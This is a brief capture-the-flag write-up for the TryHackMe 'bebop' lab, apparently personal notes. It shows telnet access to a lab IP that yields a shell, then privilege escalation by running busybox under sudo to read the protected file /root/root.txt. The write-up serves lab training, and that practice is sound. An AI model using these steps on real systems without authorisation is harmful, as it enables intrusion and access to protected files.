 #telnet

https://tryhackme.com/r/room/bebop

---
#### Nmap
![[Screenshot_2024-05-13_14-27-09.png]]

Telnet gave me a shell with the first flag `user.txt`
```shell
telnet 10.10.124.192 23
```

With `sudo -l`, I saw that I can sudo a binary called busy box and I've got the root flag by simply typing:
```shell
sudo /bin/busybox cat /root/root.txt
```
